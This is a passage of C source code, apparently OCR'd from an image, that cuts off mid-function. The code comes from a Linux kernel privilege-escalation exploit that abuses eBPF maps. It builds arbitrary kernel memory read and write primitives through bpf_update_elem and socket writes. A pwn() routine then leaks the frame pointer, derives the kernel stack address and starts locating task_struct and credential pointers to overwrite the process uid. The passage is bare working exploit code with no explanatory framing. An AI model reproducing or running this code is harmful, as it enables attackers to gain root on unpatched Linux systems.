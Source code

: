 ```c
		__exit(strerror(errno));
}

static void writemsg(void) {
	char buffer[64];

	ssize_t n = write(sockets[0], buffer, sizeof(buffer));

	if (n < 0) {
		perror("write");
		return;
	}
	if (n != sizeof(buffer))
		fprintf(stderr, "short write: %lu\n", n);
}

#define __update_elem(a, b, c) \
	bpf_update_elem(0, (a)); \
	bpf_update_elem(1, (b)); \
	bpf_update_elem(2, (c)); \
	writemsg();

static uint64_t get_value(int key) {
	uint64_t value;

	if (bpf_lookup_elem(&key, &value))
		__exit(strerror(errno));

	return value;
}

static uint64_t __get_fp(void) {
	__update_elem(1, 0, 0);

	return get_value(2);
}

static uint64_t __read(uint64_t addr) {
	__update_elem(0, addr, 0);

	return get_value(2);
}

static void __write(uint64_t addr, uint64_t val) {
	__update_elem(2, addr, val);
}

static uint64_t get_sp(uint64_t addr) {
	return addr & ~(0x4000 - 1);
}

static void pwn(void) {
	uint64_t fp, sp, task_struct, credptr, uidptr;

	fp = __get_fp();
	if (fp < PHYS_OFFSET)
		__exit("bogus fp");
	
	sp = get_sp(fp);
	if (sp < PHYS_OFFSET)
		__exit("bogus sp");
	
	task_struct = __read(sp);
```
